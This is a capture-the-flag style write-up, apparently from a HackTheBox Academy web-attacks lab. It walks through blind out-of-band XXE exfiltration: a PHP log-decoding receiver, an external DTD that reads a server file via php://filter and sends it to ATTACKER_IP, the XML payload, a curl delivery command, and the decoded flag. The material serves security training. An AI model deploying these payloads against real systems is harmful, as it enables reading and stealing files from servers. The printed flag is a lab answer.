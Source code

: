 **Target:** `http://10.129.234.170` (ACADEMY-WEBATTACKS-XXE)

**Objective:** Use OOB exfiltration on `/blind` page to read `/327a6c4304ad5938eaf0efb6cc3e53dc.php`

#### Manual OOB Method

**Step 1: Setup Decoding Server**
```bash
# Create index.php for auto-decoding
echo '<?php if(isset($_GET["content"])){error_log("\n\n" . base64_decode($_GET["content"]));} ?>' > index.php

# Start PHP server
php -S 0.0.0.0:8000
```

**Step 2: Create External DTD**
```bash
# Create xxe.dtd for OOB exfiltration
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://ATTACKER_IP:8000/?content=%file;'>">
EOF
```

**Step 3: OOB XXE Payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://ATTACKER_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

**Step 4: Send to `/blind/submitDetails.php`**
```bash
curl -X POST "http://10.129.234.170/blind/submitDetails.php" \
    -H "Content-Type: application/xml" \
    -d 'PAYLOAD_ABOVE'
```

**Step 5: Check Server Logs**
- Server receives HTTP request with base64-encoded PHP file
- Example base64 response: `PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K`
- PHP auto-decodes and displays flag in error log

**Decode Base64 to Get Flag:**
```bash
echo "PD9waHAgJGZsYWcgPSAiSFRCezFfZDBuN19uMzNkXzB1N3B1N183MF8zeGYxbDdyNDczX2Q0NzR9IjsgPz4K" | base64 -d

# Output: <?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

